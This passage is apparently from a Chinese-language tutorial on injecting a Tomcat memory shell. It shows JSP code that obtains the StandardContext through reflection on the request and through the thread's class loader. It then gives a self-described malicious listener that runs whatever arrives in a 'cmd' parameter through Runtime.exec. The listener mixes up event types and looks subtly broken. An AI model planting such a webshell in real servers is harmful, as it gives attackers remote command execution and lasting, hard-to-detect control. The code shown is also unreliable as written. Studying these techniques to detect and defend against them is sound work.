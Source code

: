 ### 4.1.2、获取StandardContext类

下面的工作就是获取`StandardContext`类了，在`StandardHostValve#invoke`中，可以看到其通过`request`对象来获取`StandardContext`类
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712626688068-d20fa230-34df-4491-8bdb-1a54e794a560.png)
同样地，由于`JSP`内置了`request`对象，我们也可以使用同样的方式来获取

```java
<%
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
%>
```

另外一种获取方式	——通过线程

```java
<%
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
%>
```

接着我们编写一个恶意的`Listener`

```java
<%!
  public class MaListener implements ServletContextListener {

    @Override
    public void contextInitialized(ServletContextEvent sre) {
      HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
      String cmd = request.getParameter("cmd");
      if (cmd != null) {
        try {
          Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
          e.printStackTrace();
        } catch (NullPointerException n) {
          n.printStackTrace();
        }
      }
    }

    @Override
    public void contextDestroyed(ServletContextEvent sce) {

    }
  }
%>
```
